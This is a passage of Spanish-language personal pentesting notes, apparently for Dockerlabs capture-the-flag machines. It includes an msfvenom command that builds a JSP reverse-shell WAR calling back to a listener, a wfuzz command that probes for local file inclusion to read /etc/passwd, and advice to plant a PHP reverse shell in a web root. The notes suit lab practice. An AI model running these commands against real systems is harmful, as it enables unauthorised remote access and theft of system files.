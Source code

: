 podemos subir un archivo .war como reverse shell, ese archivo se crea con msfvenom:


msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.3 LPORT=443 -f war -o RevShell.war

-------------------------------------------------------------------------------

## 20.- comando para descubrir un LFI

herramienta wfuzz

wfuzz -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u htpp://172.17.0.2/index.php?FUZZ=../../../../../etc/passwd --hc 404 --hl 40 --hw 169 -c -t 200

ante del FUZZ siempre debe haber un archivo .php

para la intrusión, ver el archivo:

E:\Hacking\APUNTES\HACKING WEB\Teoría, técnicas\LFI - Local File Inclusion .txt

-------------------------------------------------------------------------------

## 21.- Si tenemos una imagen podemos realizar esteganografia o también osint inversa subiendo la imagen a google images.

si ves que solo hay una imagen en la máquina víctima, bajala y aplica lo mencionado.

para esteganografía ver el archivo:

E:\Hacking\APUNTES\IMAGENES, METADADOS, ESTEGANOGRAFIA O INFORMACIÓN OCULTA.txt

le aplicamos toda la esteganografia posible, strings exiftool, podemos encontrar diferentes cosas, como credenciales diferentes para acceso a algún protocolo.

-------------------------------------------------------------------------------

## 22.- Siempre hacer ctrl + u para visualizar el codigo de la web.

-------------------------------------------------------------------------------

## 23.-Supongamos que entré en un equipo que corre una web, con un usuario y con ese usuario no puedo escalar privilegios, puedo entrar en /var/www/html y modificar un archivo .php o crearlo y crear una reverse-shell para entrar como www-data y pueda que con ese usuario pueda escalar privilegios.

referencia, máquina allien - dockerlabs:

https://github.com/dfalla/Hacking---Dockerlabs/blob/allien/allien.md

-------------------------------------------------------------------------------

## 24.- Podemos pasar archivos creando un servidor en python con el comando:
